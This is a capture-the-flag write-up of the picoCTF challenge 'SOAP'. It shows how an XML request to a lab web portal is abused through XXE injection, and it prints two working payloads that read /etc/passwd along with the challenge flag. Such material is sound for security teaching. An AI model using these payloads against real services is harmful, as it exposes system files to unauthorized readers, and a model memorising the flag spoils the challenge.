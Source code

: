 # SOAP
## Description
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file? [Web Portal](http://saturn.picoctf.net:55566/)

---
Visiting the page, we see a page with 3 cards, and an interactable `Details` button:

![[Pasted image 20230327205408.png]]

When we watch Firefox's Network Monitor and click a detail, we see a post method sent:

![[Pasted image 20230327205640.png]]

The request payload is in xml format, potentially leading to XXE (XML external entity) injection. We can try a simple payload described in [portswigger's post](https://portswigger.net/web-security/xxe) on the topic:

```
`<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> <stockCheck><productId>&xxe;</productId></stockCheck>`
```

modifying our own payload:
```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY abc SYSTEM "file:///etc/passwd"> ]><data><ID>&abc;</ID></data>
```

We can resend our request using Firefox's Network Manager again, and replace the body contents with our newly modified payload. In the response tab, we see the contents of `/etc/passwd` as well as our flag:

![[Pasted image 20230327210246.png]]

picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}

In an interesting twist of annoyance, the xxe injection fails if you use the entity term 'xxe', as is done in portswigger's example.  After renaming the entity to 'abc', the xxe exploit worked effortlessly.